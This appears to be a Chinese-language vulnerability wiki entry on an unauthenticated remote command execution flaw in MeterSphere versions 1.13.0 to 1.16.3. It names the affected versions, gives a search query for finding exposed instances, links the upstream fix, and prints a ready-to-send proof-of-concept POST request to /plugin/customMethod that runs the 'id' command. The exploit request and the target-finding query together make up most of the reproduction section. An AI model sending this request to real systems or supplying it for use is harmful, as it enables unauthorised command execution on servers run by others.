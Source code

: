 # MeterSphere customMethod 远程命令执行漏洞

## 漏洞描述

2022年1月5日，知道创宇404积极防御实验团队发现了MeterSphere开源持续测试平台的一处漏洞，并向MeterSphere研发团队进行了反馈。通过该漏洞攻击者可以在未授权的情况下执行远程代码，建议MeterSphere平台用户，尤其是可通过公网访问的用户尽快进行升级修复

## 漏洞影响

<a-checkbox checked>MeterSphere v1.13.0 - v1.16.3</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="MeterSphere"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1641555749774-16f5fa84-eed7-4ec7-8c9d-0daf4085f543.png)

根据官方的修复可以看到目前版本的修复版本为删除代码片段

filterChainDefinitionMap.put("/plugin/**", "anon");

```go
https://github.com/metersphere/metersphere/pull/9140/files
```

![img](/assets/PeiQi-Wiki/img/1641555879489-faa94a48-65aa-4eb5-b116-434b10b0895a.png)

查看文件 **/backend/src/main/java/io/metersphere/controller/PluginController.java**

![img](/assets/PeiQi-Wiki/img/1641556024273-44267007-49eb-46c6-b0fd-237b0fad9d74.png)

发送请求包

```go
POST /plugin/customMethod

{"entry":"Evil","request":"id"}
```

![img](/assets/PeiQi-Wiki/img/1641559411956-ce8b8be3-71db-4c31-95fa-d75a00adce85.png)